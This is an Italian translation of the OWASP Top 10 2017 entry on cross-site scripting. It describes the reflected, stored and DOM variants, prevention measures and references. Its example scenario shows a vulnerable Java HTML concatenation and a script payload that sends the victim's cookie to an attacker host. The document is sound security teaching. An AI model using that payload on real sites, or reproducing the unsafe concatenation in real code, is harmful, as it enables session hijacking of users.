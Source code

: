 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : Exploitability 3 | Prevalence 3 : Detectability 3 | Technical 2 : Business |
| I tool automatici possono identificare e sfruttare tutte le 3 forme di XSS, e framework per lo sfruttamento delle falle sono liberamente scaricabili. | XSS è la seconda falla per diffuzione fra le OWASP Top 10 ed è trovabile in circa i 2/3 delle applicazioni. Gli strumenti automatici possono identificare automaticamente falle XSS, soprattutto in tecnologie mature come PHP, J2EE / JSP e ASP.NET. | L'impatto di XSS è moderato per gli XSS DOM e reflected, e grave per gli stored XSS, con l'esecuzione di codice remoto, come furto di credenziali, sessioni o installazione di codice malevolo direttamente sul browser della vittima. | 

## L'Applicazione è vulnerabile?

Ci sono 3 tipi di XSS; generalmente attaccano il browser dell'utente:

* **Reflected XSS**: L'API o l'applicazione include nell'output HTML parte dell input utente senza validarlo o pulirlo. Un attacco di successo può consentire all'attaccante di eseguire HTML e codice Javascript nel browser della vittima. L'utente finirà per interagire pagine malevole definite dall'attaccante, come siti di raccolta dati, annunci o simili.
* **Stored XSS**: L'applicazione o l'API salva input utente non sanato che verrà poi rivisto da un altro utente o un amministratore. Il rischio dovuto a falle di tipo Stored XSS è spesso considerato di livello alto o critico.
* **DOM XSS**: Framework JavaScript, single-page applications e API che includono dinamicamente dati potenzialmente controllabili da un attaccante sono vulnerabili ai DOM XSS. In linea ideale l'applicazione non dovrebbe inviare dati controllabili da un attaccante a librerie/API JavaScript non sicure.

Gli attacchi XSS tipici includono il furto di sessioni, il furto di identità, l'aggiramento dell'autenticazione a più fattori, la sostituzione di parti del DOM o il defacement (come ad esempio falsi pannelli di login), attacchi al browser dell'utente come scaricamento di software, key logging, e altri attacchi lato client.

## Prevenzione

Per prevenire gli attacchi XSS è necessario separare dati non fidati dal contenuto attivo del browser. Ciò può essere ottenuto in vari modi: 

* Usando framework che evitano XSS per design, ad esempio le ultime versioni di Ruby on Rails, React JS. Imparare i limiti della protezione XSS di ogni framework e gestire in maniera appropriata i casi non coperti.
* Pulire i dati di richieste HTTP non fidate basandosi sul contesto dell'output HTML (body, attribute, JavaScript, CSS o URL) eiva le falle di tipo Reflected o Stored. Il [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) fornisce dettagli sulle tecniche di pulizia dei dati.
* Applicare un encoding context-sensitive quando si modifica il documento lato client ostacola gli attacchi DOM XSS. Quando non si può evitare, tecniche di pulizia del contenuto simili possono essere applicate alle API del browser, come descitto in OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Attivare una [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) come uno strato di controllo contro gli XSS in una strategia defense-in-depth. E' efficace quando altre vulnerabilità consentono di inserire codice malevolo attraverso l'inclusione di un file locale (ad esempio sostituzioni di file con path traversal or librerie vulnerabli su fonti consentite). 

## Scenari esempio di attacco

**Scenario #1**: L'applicazione usa dati non sicuri nel costuire questo snippet HTML senza validarli o pulirli:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
L'attaccante modifica il parametro ‘CC’ nel browser in:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Questo attacco comporta che l'ID di sessione della vittima venga inviato al sito dell'attaccante, consentendogli così di rubare la sessione utente.

**Note**: Gli attaccanti possono usare XSS per aggirare ogni difesa automatica contro la Cross-Site Request Forgery (CSRF) utilizzata dall'applicazione.

## Riferimenti

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Esterno

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
